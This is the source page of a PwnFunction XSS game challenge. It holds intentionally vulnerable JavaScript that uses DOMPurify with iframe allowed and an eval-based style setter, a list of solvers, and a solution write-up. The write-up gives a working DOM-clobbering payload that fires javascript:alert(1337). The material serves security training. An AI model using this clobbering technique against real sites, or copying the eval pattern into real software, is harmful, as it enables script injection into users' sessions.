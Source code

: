 ```yaml
---
title: "XSS Game - Me and the Bois | PwnFunction"
header: "Me and the Bois"
challengeUrl: "https://sandbox.pwnfunction.com/challenges/me-and-the-bois.html"
date: 2020-03-14T01:53:46+05:30
draft: false
type: challenge
difficulty: Medium
solvers: 9
---
```


<!-- Rules -->
{{< rules >}}
<li>Difficulty is <b>Medium</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
<li>Unintended solution? DM me <a target="_blank"
                            href="https://twitter.com/messages/compose?recipient_id=1084132461133451264"
                            class="function">@PwnFunction</a>.
                    </li>
{{</ rules >}}

<!-- Challenge Code -->
{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;div id=&#x22;bois&#x22;&#x3E;
&#x3C;/div&#x3E;

&#x3C;script&#x3E;
    /* Variables */
    let safeTags = [&#x27;a&#x27;, &#x27;area&#x27;, &#x27;b&#x27;, &#x27;br&#x27;, &#x27;col&#x27;, &#x27;code&#x27;, &#x27;div&#x27;, &#x27;em&#x27;, &#x27;hr&#x27;, &#x27;h1&#x27;, &#x27;h2&#x27;, &#x27;h3&#x27;, &#x27;h4&#x27;, &#x27;h5&#x27;, &#x27;h6&#x27;, &#x27;i&#x27;, &#x27;iframe&#x27;, &#x27;img&#x27;, &#x27;li&#x27;, &#x27;ol&#x27;, &#x27;p&#x27;, &#x27;pre&#x27;, &#x27;s&#x27;, &#x27;small&#x27;, &#x27;span&#x27;, &#x27;sub&#x27;, &#x27;sup&#x27;, &#x27;strong&#x27;, &#x27;u&#x27;, &#x27;ul&#x27;]
    let forbiddenAttrs = [&#x27;style&#x27;, &#x27;srcdoc&#x27;]
    let cssSafe = /[^a-zA-Z0-9\s\-\,\:\_\(\)\{\}\&#x22;\&#x27;\.\#\;\%]/g

    /* Inputs */
    let boi = &#x60;&#x3C;h1&#x3E;${(new URL(location).searchParams.get(&#x27;boi&#x27;)) || &#x27;Neo&#x27;}&#x3C;/h1&#x3E;&#x60;
    let clean = DOMPurify.sanitize(boi, { ALLOWED_TAGS: safeTags, FORBID_ATTR: forbiddenAttrs })
    let bois = document.getElementById(&#x27;bois&#x27;)
    bois.innerHTML += clean;

    /* Custom Style JSON */
    let custom = (new URL(location).searchParams.get(&#x27;custom&#x27;)) || &#x22;&#x22;
    custom = custom.replace(cssSafe, &#x27;&#x27;)
    if (custom) {
        customStyles = JSON.parse(custom)
        let comment = document.createComment(customStyles)
        bois.appendChild(comment)
    }

    /* Configuration */
    window.CONFIG = {
        color: &#x22;lime&#x22;,
        backgroundColor: &#x22;#000&#x22;
    }
&#x3C;/script&#x3E;

&#x3C;script&#x3E;
    /* Generic Style Setter */
    function styleSetter(styles, execStr) {
        for (var style in styles) {
            if (styles.hasOwnProperty(style)) {
                eval(execStr)
            }
        }
    }

    /* Default Styles */
    window.DEFAULTS = {
        borderRadius: &#x22;5px&#x22;,
        fontFamily: &#x22;Space Mono&#x22;,
        fontWeight: &#x22;700&#x22;,
        letterSpacing: &#x22;4px&#x22;,
        padding: &#x22;20px&#x22;,
        textAlign: &#x22;center&#x22;,
        width: &#x22;500px&#x22;
    }
    styleSetter(DEFAULTS, &#x60;CONFIG[style] = styles[style]&#x60;)

    /* Custom Styles */
    if (window.customStyles) {
        styleSetter(customStyles, &#x60;CONFIG[style] = customStyles[style]&#x60;)
    }

    /* Stylise! */
    styleSetter(CONFIG, &#x60;bois.firstElementChild.style[style] = CONFIG[style]&#x60;)
&#x3C;/script&#x3E;
</code>{{< /code >}}

<!-- Solvers -->
{{< solvers >}}
<tr>
    <th scope="row">1</th>
    <td><a href="https://twitter.com/@Black2Fan" target="_blank"
            class="function">Sergey Bobrov</a>
    </td>
    <td>Unintended(fixed) & Intended</td>
</tr>
<tr>
    <th scope="row">2</th>
    <td><a href="https://twitter.com/@insertScript" target="_blank"
            class="function">alex</a>
    </td>
    <td>Unintended(fixed) & Intended</td>
</tr>
<tr>
    <th scope="row">3</th>
    <td><a href="https://twitter.com/@RootEval" target="_blank"
            class="function">RootEval</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">4</th>
    <td><a href="https://twitter.com/@SecurityMB" target="_blank"
            class="function">Michał Bentkowski</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">5</th>
    <td><a href="https://twitter.com/@IvarsVids" target="_blank"
            class="function">Ivars Vids</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">6</th>
    <td><a href="https://twitter.com/@BitK_" target="_blank"
            class="function">BitK</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">7</th>
    <td><a href="https://twitter.com/@Zeev42746664" target="_blank"
            class="function">Zeev</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">8</th>
    <td><a href="https://twitter.com/@StructHack" target="_blank"
            class="function">Dipendra Shrestha</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">9</th>
    <td><a href="https://twitter.com/@shafigullin" target="_blank"
            class="function">Roman</a>
    </td>
    <td>Intended</td>
</tr>
{{< /solvers >}}

{{< solution >}}
<p>Solution is ...</p>
<pre class="solution-code-block"><code class="language-markup">?boi=&#x3C;iframe id=CONFIG src=/&#x3E;&#x26;custom={&#x22;toString&#x22;:0,&#x22;src&#x22;:&#x22;javascript:alert(1337)&#x22;}
</code></pre>

The first thing to notice is that <code>iframe</code> tag is in the whitelisted tags. Also there's HTML injection via the <code>boi</code> <b>GET</b> parameter.
<pre class="solution-code-block"><code class="language-js">let safeTags = [..., &#x27;iframe&#x27;, ...]
/* ... */
// Sanitized with DOMPurify
bois.innerHTML += clean;</code></pre>

<p>There's also a feature to add some CSS styles to your HTML element via the <code>custom</code> <b>GET</b> paramater. The <code>custom</code> parameter takes input in JSON. </p>

<p>Now the idea is to DOM Clobber the <code>CONFIG</code> variable and set it to a <code>window</code> object. This is possible because <code>iframe</code> is in the whitelist and when clobbered via the <code>name</code> property, the value of the variable will be set to the <code>window</code> object of that iframe. Once clobbered, we can set the <code>src</code> property to any path on the website and then immediately we can change it to <code>javascript:alert(0)</code>, which will run the Javascript in the current website's context, hence XSS.</p>

<p>First off, to clobber the <code>CONFIG</code> variable, we need to first undefine it, since it already exists. To do this we can cause an error in the first script block. There are 2 ways to cause an error and undefine the <code>CONFIG</code> variable, but only one can lead to XSS. Basically, we set the <code>toString</code> of the <code>customStyles</code> to a value which can't be called, because <code>toString</code> is supposed to be a function that returns the string representation of that object.</p>

<p>Here, we have an indirect call to the <code>toString()</code> function, this happens when the code tries to create a comment from the object. Since comments are pretty much TextNodes, the object first has to be converted to a string, which is done via the <code>toString()</code> function.</p>
<pre class="solution-code-block"><code class="language-js">let comment = document.createComment(customStyles)
bois.appendChild(comment)</code></pre>

<p>Hence, we can set the <code>toString</code> to a number.
<pre class="solution-code-block"><code class="language-js">custom={&#x22;toString&#x22;:0}</code></pre>
<p>When called would trigger an error and the code below it in the same script block won't run, hence <code>WINDOW.CONFIG</code> will never be created. This is possible because the <code>CONFIG</code> is created at the runtime.</p>

<p>Now that we've undefined the <code>CONFIG</code> vairable, we can clobber it.</p>
<pre class="solution-code-block"><code class="language-markup">&#x3C;iframe name=CONFIG src=/&#x3E;</code></pre>
So now the <code>CONFIG</code> vairable, is a window object and we fully control it. How? check this code.

<pre class="solution-code-block"><code class="language-js">if (window.customStyles) {
    styleSetter(customStyles, &#x60;CONFIG[style] = customStyles[style]&#x60;)
}</code></pre>

<code>CONFIG[style]</code> is set to <code>customStyles[style]</code> and we control <code>customStyles</code> via the <b>GET</b> parameter <code>custom</code>. So it's simply just a matter of setting the <code>src</code> property to <code>javascript:alert(1337)</code>.

<pre class="solution-code-block"><code class="language-markup">?boi=&#x3C;iframe id=CONFIG src=/&#x3E;&#x26;custom={&#x22;toString&#x22;:0,&#x22;src&#x22;:&#x22;javascript:alert(1337)&#x22;}
</code></pre>

<p>The unintended solutions were similar, but instead of setting <code>src</code> to <code>javascript:alert(1337)</code>, the <code>innerHTMl</code> was used to set the HTML of a <code>div</code> element. So I added some regex in-place (<code>cssSafe</code>).</p>
{{< /solution >}}